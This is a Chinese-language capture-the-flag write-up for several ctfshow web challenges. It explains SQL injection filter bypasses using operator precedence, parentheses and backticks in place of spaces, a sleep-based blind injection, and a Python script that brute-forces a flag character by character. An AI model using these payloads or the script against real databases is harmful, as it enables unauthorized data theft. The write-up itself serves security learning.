 参考了一下网上 wp 的 payload: `-1'or(id=26)and'1`

wp 中说的是 "利用 and 的优先级比 or 更高" 来绕过

我个人的理解如下 (不知道对不对)

拼接后的 sql 语句 `select id,username,password from ctfshow_user where username != 'flag' and id='-1'or(id=26)and'1' limit 1;`

and 的优先级是高于 or 的

语句实际的执行顺序如下 (我们把距离 and 两边最近的相关操作都用括号括起来以便于理解, 并且补全空格)

`select id,username,password from ctfshow_user where (username != 'flag' and id='-1') or (id=26 and '1') limit 1;`

首先因为输出只能输出一行数据, 需要 `id=-1` 来使前一条查询纪录为空, 使得前一条包含 and 的语句为 false

然后开始判断后一个括号内的操作, `id=26 and '1'` 与 `id=26` 等价 (注意 `id=26 or '1'` 相当于查询全部内容, 因为 or 后一句永远是 true, 即查询存在的纪录)

因为前一个括号内容不成立(返回空纪录), 后一个括号内的内容成立, 于是通过 or 符号, 我们查询了 `id=26` 的纪录并显示出来

因为空格被过滤了, 所以使用 `()` 进行绕过, 测试可知 flag 所在账户的 id 值是 26, 于是构造 `or(id=26)` 来查询 id=26 的数据

最后面的 `and'1` 是闭合后面的单引号 (因为注释被过滤掉了)

最终的 payload 为 `-1'or(id=26)and'1`, 其实 `-1'or(id=26)and'1'=1` 也是可以的

## web182

同上

或者盲注

`or(id=26)and(if(ascii(substr(password,1,1))>0,sleep(5),0))and'1`

## web183

![20220724233052](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724233052.png)

仍然是过滤

from 后面的注入, 平常没怎么遇到过...

`=` 被过滤了, 用 like 替代 (regexp 应该也行)

`tableName=(ctfshow_user)where(pass)like('c%')`

括号绕过, 注意 SQL 相关的操作符例如 where like and or 是不能加括号的, 字符串和列名能加括号

这题还能用反引号代替空格绕过

```
tableName=`ctfshow_user`where`pass`like'ctfshow{%'
```

盲注脚本

```python
import requests

dicts=r'1234567890-{}qwertyuiopasdfghjklzxcvbnm'

flag = 'ctfshow{'

for i in range(1,64):
    for s in dicts:
        data = {'tableName': '(ctfshow_user)where(pass)like(\'{}%\')'.format(flag+s)}
        url = 'http://68dd6502-9f12-4e04-86da-60d7ea7d0d94.challenge.ctf.show/select-waf.php'
        res = requests.post(url,data=data)
        if res.text.find('$user_count = 1') != -1:
            flag += s
```